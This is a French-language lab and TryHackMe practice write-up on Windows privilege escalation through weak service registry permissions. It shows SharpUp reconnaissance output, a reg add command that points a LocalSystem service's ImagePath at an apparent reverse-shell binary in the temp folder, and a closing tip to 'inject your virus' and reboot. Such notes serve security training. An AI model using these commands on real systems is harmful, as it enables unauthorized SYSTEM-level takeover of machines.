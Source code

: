 Les autorisations de registre faibles représentent une vulnérabilité dans le registre Windows résultant de contrôles d'accès mal configurés. Ce problème concerne des clés ou des entrées de registre spécifiques dont les autorisations permettent à des utilisateurs non autorisés de manipuler ou d'accéder à des configurations cruciales du système. Cette vulnérabilité peut être exploitée par des attaquants qui injectent du code malveillant dans les clés de registre, obtenant ainsi un accès privilégié non autorisé.


## Recon

```console
C:\Users\bloman\AppData\Local\Temp>.\sharpup.exe audit ModifiableServiceRegistryKeys 
.\sharpup.exe audit ModifiableServiceRegistryKeys 

=== SharpUp: Running Privilege Escalation Checks ===

[*] In medium integrity but user is a local administrator- UAC can be bypassed.

[*] Audit mode: running an additional 1 check(s).

=== Services with Modifiable Registry Keys ===
	Service 'Vulnerable Service 4' (State: Stopped, StartMode: Auto) : SYSTEM\CurrentControlSet\Services\Vulnerable Service 4



[*] Completed Privesc Checks in 1 seconds
C:\Users\bloman\AppData\Local\Temp>
```

- Avec la commande suivante, nous demandons le chemin d'accès à l'image pour le service.

``reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4``


```console
C:\Users\bloman\AppData\Local\Temp>reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" /t REG_EXPAND_SZ /v ImagePath /d "%temp%/reve.exe" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" /t REG_EXPAND_SZ /v ImagePath /d "%temp%/reve.exe" /f
The operation completed successfully.

C:\Users\bloman\AppData\Local\Temp>
```

avant de demarrer mon service je vais d'abord voir toutes les services dispo:

``sc query state= all``

```console
C:\Users\bloman\AppData\Local\Temp>sc qc "Vulnerable Service 4"
sc qc "Vulnerable Service 4"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Vulnerable Service 4
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\bloman\AppData\Local\Temp/reve.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Vuln Service 4
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

C:\Users\bloman\AppData\Local\Temp>


```


## Practice TryHackMe

```console
C:\Users\user\AppData\Local\Temp>sharpup.exe audit ModifiableServiceRegistryKeys
sharpup.exe audit ModifiableServiceRegistryKeys

=== SharpUp: Running Privilege Escalation Checks ===

=== Services with Modifiable Registry Keys ===
	Service 'regsvc' (State: Stopped, StartMode: Manual) : SYSTEM\CurrentControlSet\Services\regsvc



[*] Completed Privesc Checks in 4 seconds

C:\Users\user\AppData\Local\Temp>sc qc "regsvc"
sc qc "regsvc"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

C:\Users\user\AppData\Local\Temp>

```



```console
=== Services with Modifiable Registry Keys ===
        Service 'Vulnerable Service 4' (State: Stopped, StartMode: Auto) : SYSTEM\CurrentControlSet\Services\Vulnerable Service 4
```


si le `Seshutdown` est disabled. juste injecte ton virus et restart la machine avec 

``shutdown /r /t 0``